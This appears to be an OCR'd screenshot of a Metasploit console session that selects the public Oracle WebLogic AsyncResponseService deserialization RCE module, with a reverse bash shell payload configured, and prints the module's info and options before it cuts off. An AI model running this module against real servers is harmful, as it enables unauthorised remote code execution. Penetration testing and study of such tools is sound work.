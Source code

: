 ```bash
Interact with a module by name or index. For example info 6, use 6 or use exploit/multi/misc/weblogic_deserialize_badattr_extcomp

msf6 > use xploit/multi/misc/weblogic_deserialize_asyncresponseservice
[*] Using configured payload cmd/unix/reverse_bash

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  exploit/multi/misc/weblogic_deserialize_asyncresponseservice  2019-04-23       excellent  Yes    Oracle Weblogic Server Deserialization RCE - AsyncResponseService


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/misc/weblogic_deserialize_asyncresponseservice                                                                                                                                    

[*] Using exploit/multi/misc/weblogic_deserialize_asyncresponseservice
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > info

       Name: Oracle Weblogic Server Deserialization RCE - AsyncResponseService 
     Module: exploit/multi/misc/weblogic_deserialize_asyncresponseservice
   Platform: Unix, Windows, Solaris
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2019-04-23

Provided by:
  Andres Rodriguez - 2Secure (@acamro) <acamro@gmail.com>

Available targets:
  Id  Name
  --  ----
  0   Unix
  1   Windows
  2   Solaris

Check supported:
  Yes

Basic options:
  Name       Current Setting               Required  Description
  ----       ---------------               --------  -----------
  Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Us
                                                     ing-Metasploit
  RPORT      7001                          yes       The target port (TCP)
  SSL        false                         no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /_async/AsyncResponseService  yes       URL to AsyncResponseService
  VHOST                                    no        HTTP server virtual host

Payload information:

Description:
  An unauthenticated attacker with network access to the Oracle 
```